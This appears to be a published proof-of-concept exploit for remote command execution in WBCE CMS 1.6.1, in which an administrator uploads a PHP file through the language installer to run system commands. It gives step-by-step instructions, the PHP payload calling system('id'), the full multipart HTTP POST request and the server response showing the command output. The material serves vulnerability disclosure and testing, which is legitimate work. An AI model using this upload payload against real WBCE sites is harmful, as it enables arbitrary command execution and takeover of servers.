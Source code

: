 ## Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution
## Date: 30/11/2023
## Exploit Author: tmrswrr
## Vendor Homepage: [https://wbce-cms.org/](https://wbce-cms.org/)
## Software Link: [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
## Version: 1.6.1
## Tested on: [WBCE_CMS - Softaculous](https://www.softaculous.com/apps/cms/WBCE_CMS)

### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language > [Installation Link](https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/index.php).
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > [Install Link](https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/install.php).
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)



### Post Request:

```http
POST /WBCE_CMSgn4fqnl8mv/admin/languages/install.php HTTP/1.1
Host: demos6.softaculous.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.softaculous.com/WBCE_CMSgn4fqnl8mv/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.softaculous.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"


-----------------------------86020911415982314764024459--```

### Response:

```<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>

                    <p>Invalid WBCE CMS language file. Please check the text file.</p>
        
                    <p><a href="index.php" class="button">Back</a></p>```

